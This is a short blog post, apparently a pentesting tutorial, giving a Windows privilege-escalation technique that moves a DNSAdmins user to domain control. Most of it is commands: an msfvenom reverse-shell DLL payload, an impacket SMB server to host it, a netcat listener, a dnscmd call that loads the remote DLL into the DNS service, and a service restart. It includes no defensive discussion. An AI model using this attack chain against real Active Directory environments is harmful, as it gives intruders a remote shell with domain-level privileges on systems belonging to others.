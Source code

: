 ```yaml
---
title: Windows Privilege Escalation: DNSAdmins to Domain Admins - Server Level DLL Injection
layout: post
author: Abhinav Gyawali
date: 2019-12-21
tags: [privesc, windows, dnsadmin]
permalink: /windows-privilege-escalation-dnsadmin-to-domaincontroller/
---
```


# Windows Privilege Escalation: DNSAdmins to Domain Admins - Server Level DLL Injection

Say you have compromised a Windows machine that provides Active Directory Directory Services to its users and have gained access as a user who is a part of the DNSAdmins group, you can use this method to privilege escalate.

Here, what we're doing is:

1. Making a dll payload that sends a reverse shell back to our machine with msfvenom.
2. Serving it using SMB Server to make it available to the Windows machine. (You can use any other way to transfer it to the remote machine, but be careful, it might get nuked by the Anti-Virus.) And, we will also setup a netcat listener to catch our reverse shell.
3. Importing that dll in the DNS Server.
4. Restarting the DNS Server so that it loads the dll file.

Checking if your user is a part of the DNSAdmins group:

```powershell
whoami /all
```

Now, on to the fun part:

#making the payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.211.55.13 LPORT=4444 --platform=windows -f dll > ~/windows/privesc/plugin.dll
```

Here, because the Windows machine is of 64 bit achitechture, we're using x64 payload.

#### Serving the file using SMB Server using smbserver.py, that comes with Python3-Impacket.

```powershell
cd /usr/share/doc/python3-impacket/examples
./smbserver.py SHARE ~/windows/privesc/
```

In another terminal tab, set up a netcat listener to catch the reverse shell:

```powershell
nc -nvlp 4444
```

## Now, in the compromised Windows machine

#### Importing the plugin:

```powershell
dnscmd.exe myserver.local /config /serverlevelplugindll \\10.211.55.13\share\plugin.dll
```

#### Restarting the service:

```powershell
sc.exe stop dns
sc.exe start dns
```

Now, go back and check the netcat listener, you should have a reverse shell.

You're Welcome!

